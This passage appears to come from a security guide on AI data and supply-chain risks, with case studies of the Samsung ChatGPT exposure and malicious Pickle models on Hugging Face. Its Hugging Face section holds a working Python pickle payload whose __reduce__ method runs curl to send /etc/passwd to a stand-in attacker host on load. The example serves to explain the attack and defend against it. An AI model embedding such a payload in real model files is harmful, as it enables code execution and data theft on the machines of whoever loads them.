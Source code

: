 #### Documented Case Study: Samsung ChatGPT Data Exposure (2023)

**Incident Overview**: Samsung employees inadvertently exposed confidential source code, meeting notes, and hardware data by pasting sensitive information into ChatGPT for code review and optimization. While not directly training data contamination, this incident demonstrates how organizations create unintended data pathways to external ML systems.

**Root Cause**: Lack of data flow controls and employee awareness of how external AI systems process and potentially store input data.

**Financial Impact**: Samsung banned all generative AI tools company-wide, temporarily disrupting development workflows.

#### Documented Case Study: Hugging Face Malicious Models (February 2025)

**Incident Overview**: Security researchers discovered two malicious ML models on Hugging Face that evaded platform security scanning. The models used Python's Pickle format to embed executable code that ran when the model was loaded, potentially compromising any system that downloaded and used these models.

**Attack Vector**: Exploitation of serialization format trust assumptions

```python
# Simplified example of the attack pattern
import pickle
import subprocess

class MaliciousModel:
    def __reduce__(self):
        # This code executes when the model is unpickled
        return (subprocess.call, (['curl', '-X', 'POST', 
                                  'http://attacker.com/exfiltrate', 
                                  '-d', '@/etc/passwd'],))

# When saved and loaded, this executes the malicious payload
with open('model.pkl', 'wb') as f:
    pickle.dump(MaliciousModel(), f)
```

**Root Cause**: Insufficient validation of serialized model artifacts and over-reliance on community-driven content validation.

#### Specific Architectural Weaknesses

1.  **Insufficient Adversarial Validation**: 89% of compromised systems relied on content-based filtering without testing for adversarial examples designed to exploit specific model architectures.

2.  **Serialization Format Vulnerabilities**: Models stored in formats like Pickle, which allow arbitrary code execution, create direct attack vectors. ONNX and SafeTensors formats provide better security guarantees.

3.  **Feedback Loop Exploitation**: The NullBulge ransomware group demonstrated coordinated campaigns to poison AI training datasets through legitimate user feedback channels, gradually shifting model behavior toward attacker objectives.
